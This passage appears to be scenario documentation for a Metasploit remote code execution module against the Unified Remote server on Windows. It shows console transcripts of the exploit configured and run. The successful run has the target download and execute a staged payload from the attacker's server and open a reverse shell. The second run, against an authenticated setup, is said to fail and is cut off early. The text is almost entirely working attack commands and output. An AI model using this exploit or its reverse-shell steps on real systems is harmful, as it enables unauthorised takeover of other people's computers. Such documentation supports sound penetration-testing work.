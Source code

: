 ```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (unified.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:9512 - Client name set to: android-EIC1Bc3pwL4U4Pnj
[*] 192.168.2.95:9512 - Retrieving server config
[-] 192.168.2.95:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 192.168.2.95:9512 - Sending handshake part 1
[*] 192.168.2.95:9512 - Sending handshake part 2
[*] 192.168.2.95:9512 - Opening Start Menu
[*] 192.168.2.95:9512 - Opening command prompt
[*] 192.168.2.95:9512 - Typing out payload
[*] 192.168.2.95:9512 - Using URL: http://192.168.2.199:8080/
[*] 192.168.2.95:9512 - Attempting to pull down payload
[*] 192.168.2.95:9512 - Attempting to open payload
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:60829) at 2022-09-08 17:00:30 -0400
[*] 192.168.2.95:9512 - Server stopped.
[!] 192.168.2.95:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\QD7V9rLaWUwvPIY.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, no web server access

This will fail.

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (unified.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:9512 - Client name set to: android-iJP3rW13dKjtf8Xz
[*] 192.168.2.95:9512 - Retrieving server config
[-] 192.168.2.95:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 192.168.2.95:9512 - Sending handshake part 1
```